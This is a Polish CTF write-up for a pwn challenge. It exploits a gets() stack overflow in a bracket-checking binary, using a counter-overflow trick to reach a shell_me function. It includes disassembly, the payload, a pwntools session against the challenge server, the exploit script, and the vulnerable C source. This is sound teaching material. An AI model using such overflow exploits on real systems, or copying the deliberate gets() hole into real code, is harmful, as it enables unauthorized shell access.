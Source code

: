 # Nawias się musi zgadzać (pwn)
## Pts: 150

```
W ramach programu Nowoczesne Państwo uruchomiliśmy w klastrze cyberbezpieczeństwa usługę pozwalającą sprawdzić czy wyrażenie jest poprawnie onawiasowane. Sprawdź czy Twoje wyrażenia są poprawnie onawiasowane, i nie próbuj się włamywać, bo i tak Ci się to nie uda!

Program jest do pobrania stąd.

nc pwning2016.p4.team 1337

Format flagi: pwn{litery_cyfry_i_znaki_specjalne}
```
Dostajemy zapakowaną binarkę `brackets`

```
$ file brackets
brackets: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1a898791e079253916e3678874d6f13bd0054743, not stripped
```

Szybkie testowe uruchomienie:
```
$ ./brackets
Enter expression to check:
((()))))))))
Missing opening bracket!
```

Jak widać zachowuje się tak, jak się spodziewaliśmy. Szybkie wrzucenie w IDA pokazuje dość prosty schemat najbardziej interesującej funkcji:

![overview](img/graph%20overview.png)

```assembly
public check_my_brackets
check_my_brackets proc near

var_80= byte ptr -80h
var_10= qword ptr -10h
var_4= dword ptr -4

push    rbp
mov     rbp, rsp
add     rsp, 0FFFFFFFFFFFFFF80h
mov     [rbp+var_4], 0
lea     rax, [rbp+var_80]
mov     rdi, rax
mov     eax, 0
call    _gets
lea     rax, [rbp+var_80]
mov     [rbp+var_10], rax
jmp     short loc_40069F
```

Natychmiastowo uwagę przykuwa użycie niebezpiecznej funkcji `gets`. Można się spodziewać że mamy doprowadzić do przepełnienia bufora i nadpisania adresu powrotu. Jeżeli chodzi o cel przekierowania wykonania, to twórcy zostawili nam miły prezent w postaci funkcji `shell_me` która spawnuje nam shella. Sprawdźmy więc adresy obecnej i docelowej funkcji.

```
$ readelf -s brackets

Symbol table '.symtab' contains 72 entries:
   Num:    Value          Size Type    Bind   Vis      Ndx Name
...
    48: 0000000000400638   143 FUNC    GLOBAL DEFAULT   14 check_my_brackets
...
    54: 00000000004005f6    66 FUNC    GLOBAL DEFAULT   14 shell_me

```

Widać że są dość blisko siebie a co lepsze nie posiadają bajtów zerowych we fragmencie który musimy nadpisać (little-endian!).

Chcielibyśmy już teraz nadpisać adres powrotu ale dalsza analiza pokazuje że to nie zadziała. Zwróćmy uwagę na to w jaki sposób kończy się nasza funkcja.

![exits](img/exits.png)

Tylko poprawne zakończenie (skrajnie prawy blok) algorytmu prowadzi do powrotu, w przeciwnym razie uruchamiany jest `exit` więc podmiana adresu nic nie da. Problemem jest 32-bitowa zmienna `var_4` która reprezentuje bilans nawiasów otwierających i zamykających. Żeby algorytm stwierdził że nawiasowanie jest poprawne to w szczególności na końcu musi ona wynosić 0. ~~Nie możemy po prostu wkleić bajtów zerowych w payload bo `gets` tego nie wczyta~~ (EDIT: Jednak się myliłem, `gets` bez problemu czyta bajty zerowe. W każdym razie wersja bez bajtów zerowych jest często wymagana, więc opłaca się poćwiczyć różne sposoby). Trik polega na tym że oprócz nadpisania surowej wartości bilans możemy jeszcze potem zmodyfikować podając nawiasy. Plan jest prosty - ustawmy bilans na `INT_MAX` i podajmy jeden nawias, żeby przekręcił się na 0.

Payload będzie miał następujący schemat
```
'(' + FF * ??? + F60540 + '\n'
```

Znak zmiany linii zostanie zamieniony na bajt zerowy, więc adres będzie się zgadzał.


Bufor jest pod adresem `rbp-128`, po drodze jest jeszcze stare `rbp` (8 bajtów) więc potrzebujemy paddingu na 136 bajty, po tym już jest adres powrotu. Zatem ostateczny payload wygląda następująco:
```
b'(' + b'\xFF'*135 + '\xF6\x05\x40'
```

Enter możemy sami wcisnąć.
Teraz czas przetestować na zdalnym serwerze.

```python
>>> from pwn import *
>>> conn = remote("pwning2016.p4.team", 1337)
>>> conn.send("(\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xf6\x05\x40")
>>> conn.interactive()
[*] Switching to interactive mode
Enter expression to check:
(^E@
whoami
brackets
ls
brackets  brackets.c  exploit.py  flag
cat flag
pwn{b1n4ry_expl01t1ng}
```

## BONUS 

Dump reszty plików!

`exploit.py`

```python
exploit = ''.join(["()" for i in range(62)])+"\x00\x00\x00\x00AAAAAAAA\xf6\x05\x40\x00"

from pwn import *

r = process('./brackets')
r.recvline()
r.sendline(exploit)
r.interactive()
```

`brackets.c`

```c
#include <stdlib.h>
#include <stdio.h>

#define FAIL(s) printf(s), exit(1)

void shell_me()
{
        char *filename = "/bin/sh";
        char *argv [2] = {filename, NULL};
        char *envp [1] = {NULL};
        execve(filename, argv, envp);
}

void check_my_brackets()
{
    int level = 0;
        char str[100];

        gets(str);
        for(char* s = str;*s;++s)
        {
                if(*s == '(')
                        level++;
                if(*s == ')')
                {
                        level--;
                        if(level < 0)
                                FAIL("Missing opening bracket!\n");
                }
        }

        if(level)
                FAIL("Missing closing bracket!\n");
        return;
}

int main()
{
        printf("Enter expression to check:\n");
        check_my_brackets();
        printf("Correct!\n");
        return 0;
}
```